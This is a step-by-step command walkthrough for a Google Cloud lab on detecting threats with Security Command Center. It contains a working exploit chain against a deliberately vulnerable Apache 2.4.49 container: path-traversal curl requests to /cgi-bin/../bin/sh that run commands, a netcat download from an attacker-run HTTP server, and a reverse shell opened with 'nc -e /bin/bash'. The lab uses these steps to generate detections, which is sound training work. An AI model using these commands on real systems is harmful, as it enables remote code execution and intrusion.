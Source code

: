 
# Detect and Investigate Threats with Security Command Center [GSP1125]

# If you consider that the video helped you to complete your lab, so please do like and subscribe [Techcps](https://www.youtube.com/@techcps)

## Note: Go to "IAM & Admin" > "Audit Logs".
* Click the findbar and type: "Cloud Resource Manager API"

* Click the checkbox on "Cloud Resource Manager API" and select "Admin Read" then click save button.

## In the GCP Console open the Cloud Shell and enter the following commands:

```
export ZONE=us-central1-c
REGION=${ZONE::-2}

gcloud services enable securitycenter.googleapis.com --project=$DEVSHELL_PROJECT_ID
sleep 30

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

gcloud projects remove-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
  --member=user:$USER_EMAIL \
  --role=roles/cloudresourcemanager.projectIamAdmin

gcloud compute instances create instance-1 --project=$DEVSHELL_PROJECT_ID --zone=$ZONE --machine-type=e2-medium --network-interface=network-tier=PREMIUM,stack-type=IPV4_ONLY,subnet=default --metadata=enable-oslogin=true --maintenance-policy=MIGRATE --provisioning-model=STANDARD --scopes=https://www.googleapis.com/auth/cloud-platform --create-disk=auto-delete=yes,boot=yes,device-name=instance-1,image=projects/debian-cloud/global/images/debian-11-bullseye-v20230912,mode=rw,size=10,type=projects/$DEVSHELL_PROJECT_ID/zones/$ZONE/diskTypes/pd-balanced --no-shielded-secure-boot --shielded-vtpm --shielded-integrity-monitoring --labels=goog-ec-src=vm_add-gcloud --reservation-affinity=any

gcloud dns --project=$DEVSHELL_PROJECT_ID policies create dns-test-policy --description="Please subscirbe to techcps" --networks="default" --private-alternative-name-servers="" --no-enable-inbound-forwarding --enable-logging

sleep 45
```


```
gcloud compute ssh --zone "$ZONE" "instance-1" --tunnel-through-iap --project "$DEVSHELL_PROJECT_ID" --quiet --command "gcloud projects get-iam-policy \$(gcloud config get project) && curl etd-malware-trigger.goog"
```
## Note: Check the progress on task 1 & 2
* Do not move until you get score on tast 1 & 2

```
gcloud compute instances delete instance-1 --zone=$ZONE --quiet
```

```
gcloud compute instances create attacker-instance \
--scopes=cloud-platform  \
--zone=$ZONE \
--machine-type=e2-medium  \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--no-address


gcloud compute networks subnets update default \
--region=$REGION \
--enable-private-ip-google-access
sleep 45
gcloud compute ssh --zone "$ZONE" "attacker-instance" --quiet
```

## Note: Go to Task 5 & Copy the IP address

```
Task_5_IP_address=
```

```
export ZONE=us-central1-c

sudo snap remove google-cloud-cli

curl -O https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-cli-438.0.0-linux-x86_64.tar.gz

tar -xf google-cloud-cli-438.0.0-linux-x86_64.tar.gz

./google-cloud-sdk/install.sh
```

```
. ~/.bashrc

gcloud components install kubectl gke-gcloud-auth-plugin --quiet

gcloud container clusters create test-cluster \
--zone "$ZONE" \
--enable-private-nodes \
--enable-private-endpoint \
--enable-ip-alias \
--num-nodes=1 \
--master-ipv4-cidr "172.16.0.0/28" \
--enable-master-authorized-networks \
--master-authorized-networks "$Task_5_IP_address="
sleep 45

while true; do
    output=$(kubectl describe daemonsets container-watcher -n kube-system)
    if [[ $output == *container-watcher-unique-id* ]]; then
        echo "Found unique ID in the output:"
        echo "$output"
        break
    else
        echo "Please like share & subscirbe to techcps / If you're cricketlover then follow cricetcps"
        sleep 15
    fi
done
```

## Note: This command will take a few minutes to display the output

* After Getting a Output run the following Command

```
kubectl create deployment apache-deployment \
--replicas=1 \
--image=us-central1-docker.pkg.dev/cloud-training-prod-bucket/scc-labs/ktd-test-httpd:2.4.49-vulnerable

kubectl expose deployment apache-deployment \
--name apache-test-service  \
--type NodePort \
--protocol TCP \
--port 80


NODE_IP=$(kubectl get nodes -o jsonpath={.items[0].status.addresses[0].address})
NODE_PORT=$(kubectl get service apache-test-service \
-o jsonpath={.spec.ports[0].nodePort})


gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}

gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"

gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional

LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}

python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

```
curl http://${LOCAL_IP}:8888

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"

```

```
pkill python
```

```
lsof -i -sTCP:LISTEN

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

## Note: Open the new terminal

```
nc -nlvp 8888
```

## Note: Go back first terminal

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

## Note: Go back to second terminal

```
ls -l /
```

# Congratulations, you're all done with the lab 😄

# Thanks for watching :)
